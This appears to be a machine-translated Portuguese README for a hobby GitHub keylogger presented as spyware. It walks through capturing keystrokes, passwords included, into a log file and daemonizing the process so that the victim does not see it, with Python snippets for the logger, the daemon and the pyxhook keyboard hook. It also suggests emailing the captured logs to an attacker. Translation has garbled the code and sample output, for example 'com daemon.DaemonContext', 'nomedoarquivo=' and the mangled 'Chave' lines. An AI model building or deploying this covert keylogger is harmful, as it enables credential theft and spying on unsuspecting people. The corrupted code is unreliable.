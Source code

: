 # Spyware

Existem muitas maneiras de espionar a vítima. Nosso **spyware** é representado pelo **keylogger**, um programa simples que monitora as teclas pressionadas no teclado e pode ver tudo o que você digita. Este **keylogger** é implementado no arquivo `keylogger.py`.

#### Demonstração de comportamento

Não precisamos de nenhuma preparação específica antes da execução do keylogger (`./keylogger.py`). Podemos observar que após a execução nada aconteceu e podemos digitar novos comandos, assim como no caso de pressionarmos apenas a tecla `Enter`. Agora você pode fazer em seu sistema o que quiser. Para a demonstração, você pode abrir um navegador e digitar algo como `Passwd` representando sua senha em potencial, assim como faria em qualquer página de login de sua mídia social.

Agora você pode ver que na mesma pasta que nosso **keylogger** está localizado um novo arquivo `activity.log`. Observando o arquivo você pode ver que ele contém todas as teclas que você pressionou em seu teclado após a execução, incluindo sua senha `Passwd`. O invasor pode acessar facilmente esses arquivos e modificar o keylogger para enviá-los em um endereço de e-mail específico ou com uma combinação de diferentes tipos de malware, ele pode obter acesso direto a eles via rede.

```
Chave: P
Chave: um
Chaves
Chaves
Chave: w
Chave: d
```

A criação do **keylogger** é um processo muito simples, conforme descrito abaixo e qualquer pessoa pode fazê-lo apenas com um conhecimento básico de programação e compreensão de sistemas operacionais. É por isso que devemos ser sempre cuidadosos quando executamos qualquer arquivo incomum ou não confiável.

#### Como funciona?

 - Em primeiro lugar, configuramos nosso logger. Podemos especificar o arquivo no qual devem ser armazenados os dados, bem como o formato da mensagem.
   ``` python
   logging.basicConfig(
       level=log.DEBUG,
       nomedoarquivo='atividade.log',
       format='Chave: %(message)s',
   )
   ```
 - Então temos que obter o manipulador do arquivo de log. Explicaremos o porquê no próximo passo.
   ``` python
   handler = logging.getLogger().handlers[0].stream
   ```
 - Para tornar nosso spyware mais difícil de ser detectado pela vítima, queremos que ele seja executado em segundo plano como um **daemon**.
   Para saber mais sobre daemons, consulte [o guia de daemons](https://kb.iu.edu/d/aiau). Para este propósito nós
   usará um módulo Python padrão `daemon` que nos permitirá daemonizar nosso **keylogger**.
   Quando o daemon for criado, perderemos conexões com todos os manipuladores de arquivos como `stdout` ou mesmo
   nosso arquivo de log, a menos que especifiquemos que os arquivos devem ser preservados. Por isso obtivemos
   manipulador de arquivo de log na etapa anterior. No contexto do nosso daemon oculto, agora podemos criar o
   keylogger e inicie sua atividade.
   ``` python
   # Daemonize o processo para escondê-lo da vítima.
   com daemon.DaemonContext(files_preserve=[handler]):
       # Criar keylogger.
       keylogger = Keylogger('SimpleSpyware')
       # Inicie a atividade de log do usuário.
       keylogger.start_logging()
   ```
  - Para obter os _key press events_ podemos usar um módulo python para Linux chamado `pyxhook`. Se nós
    criaria um keylogger para Windows, devemos usar o módulo `pyHook`, mas sua interface é
    muito parecido. Criamos um **gerenciador de ganchos**, que gerenciará o tratamento de eventos e nos permitirá
    definir um retorno de chamada para esses eventos. Callback é no nosso caso uma função que será chamada cada vez que um novo
    evento é obtido (__keydown_callback_). A única coisa que esse método faz é registrar a chave em nosso
    arquivo especificado `activity.log`.
    ``` python
    hook_manager = pyxhook.HookManager()
    # Atribuir retorno de chamada para manipulação de pressionamentos de tecla.
    hook_manager.KeyDown = self._keydown_callback
    # Conecte o teclado e comece a registrar.
    hook_manager.HookKeyboard()
    hook_manager.start()
    ```
